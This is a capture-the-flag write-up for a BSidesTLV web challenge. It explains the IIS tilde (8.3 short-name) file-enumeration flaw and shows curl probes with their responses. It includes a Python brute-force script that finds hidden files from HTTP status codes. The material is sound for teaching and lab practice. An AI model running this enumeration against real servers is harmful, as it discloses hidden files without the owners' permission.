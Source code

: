 # IIS on Steroids
* Category: Web Application
* 300 Points
* Solved by the JCTF Team

## Description
> I've been hiding a file that you'll never find in dictionaries and maybe you'll find it with a brute-force attack, but it will take you like 10 years or so :)
> 
> Can you deal with it?
> 
> http://iis.challenges.bsidestlv.com/

## Solution

Let's connect to the server:
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -v iis.challenges.bsidestlv.com/
*   Trying 104.248.251.27...
* TCP_NODELAY set
* Connected to iis.challenges.bsidestlv.com (104.248.251.27) port 80 (#0)
> GET / HTTP/1.1
> Host: iis.challenges.bsidestlv.com
> User-Agent: curl/7.64.0
> Accept: */*
>
< HTTP/1.1 400 Bad Request
< Server: Microsoft-IIS/7.5 on Steroids
< Content-Type: text/html; charset=utf-8
< Content-Length: 10
< Date: Tue, 18 Jun 2019 19:45:45 GMT
< Set-Cookie: s=9a85adfcc3667df6c60517ff3b10a82d8b32cde2; path=/; domain=challenges.bsidestlv.com
<
* Connection #0 to host iis.challenges.bsidestlv.com left intact
Nananaaaa!
```

Nothing much, apart from the fact that they are using IIS 7.5.

Searching for `"IIS 7.5" vulnerability` brings up [this link](https://www.exploit-db.com/exploits/19525) as one of the top results.

> The vulnerability is caused by a tilde character "~" in a Get request, which could allow remote attackers to disclose File and Folder names.
> Tilde character "~" can be used to find short names of files and folders when the website is running on IIS.
The attacker can find important file and folders that they are not normally visible.

The attack is based on the [8.3 Filename](https://en.wikipedia.org/wiki/8.3_filename) format, which dates back to DOS days. In short, without going into all the corner cases, file names could contains a maximum of 8 characters, a period and three more characters for the extension. Longer file names would be truncated, and the convention was to include the first six characters, a `~` character, and a number (starting from 1).

We can see this in action in one of the other challenges - [DoSaTTaCK](DoSaTTaCK.md):
![](images/boot330.png)

`PCDOS3~1.IMG` is in fact `PCDOS330-DISK1.img` after applying the 8.3 Filename format. If we would have `PCDOS330-DISK8.img` as well, it would have been renamed `PCDOS3~2.IMG` and so on.

The vulnerability causes IIS to leak the existence of files when using this convention, which can also be combined with wildcards (`*`). The server will return a 400 error if no file matches the pattern, and a 404 error if some file does match the pattern.

For example:
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -I http://iis.challenges.bsidestlv.com/x*~1*
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/7.5 on Steroids
Content-Type: text/html; charset=utf-8
Content-Length: 10
Date: Tue, 25 Jun 2019 19:04:40 GMT
Set-Cookie: s=cda86a9c0d56c79bc776acfac58938ef49a39924; path=/; domain=challenges.bsidestlv.com
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -I http://iis.challenges.bsidestlv.com/l*~1*
HTTP/1.1 404 Not Found
Server: Microsoft-IIS/7.5 on Steroids
Content-Type: text/html; charset=utf-8
Content-Length: 23
Date: Tue, 25 Jun 2019 19:04:33 GMT
Set-Cookie: s=cda86a9c0d56c79bc776acfac58938ef49a39924; path=/; domain=challenges.bsidestlv.com
```

According to the response codes, we can see that there's a file starting with `l`, but not one starting with `x`.

We can find more information [here](http://blog.digital-horror.com/exploiting-microsoft-iis-tilde-enumeration/), [here](https://support.detectify.com/customer/portal/articles/1711520-microsoft-iis-tilde-vulnerability) and [here](https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf), for example.

We solved the challenge by trying first "`*~1*`":
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl http://iis.challenges.bsidestlv.com/*~1*
No so fast..Try harder!
```

Then "`*~2*`":
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl http://iis.challenges.bsidestlv.com/*~2*
BSidesTLV{Y0ulln3v3rf1ndm3!}
```

But let's put some effort into it with the following script:
```python
import requests
import string

def send_request(path):
    return requests.get("http://iis.challenges.bsidestlv.com/{}".format(path))

def pattern_exists(pattern):
    r = send_request(pattern)
    if r.status_code == 400:
        return False
    elif r.status_code == 404:
        return True
    elif r.status_code == 200:
        return True
    else:
        raise Exception("Unexpected response code: {}".format(r.status_code))

alpha = set(string.printable) - set("<>:\"/\\|?*\r\n\b#.")
candidates = [""]

found_files = []
while len(candidates) > 0:
    base_candidate = candidates.pop()
    for c in alpha:
        candidate = base_candidate + c
        if pattern_exists("{}*~{}*".format(candidate, 1)):
            candidates.append(candidate)
    else:
        found_files.append(base_candidate)
    print (candidates)

for file in found_files:
    print ("{}:".format(file))
    print (send_request(file).text)
    print ("")
```

The script found the following files, the third one contained the flag:
```
l3v3lupah1dd3n:
l3v3lupqh1dd3nd1r3ct0ry:
l3v3luph1dd3nd1r3ct0ryandn0tm3:
```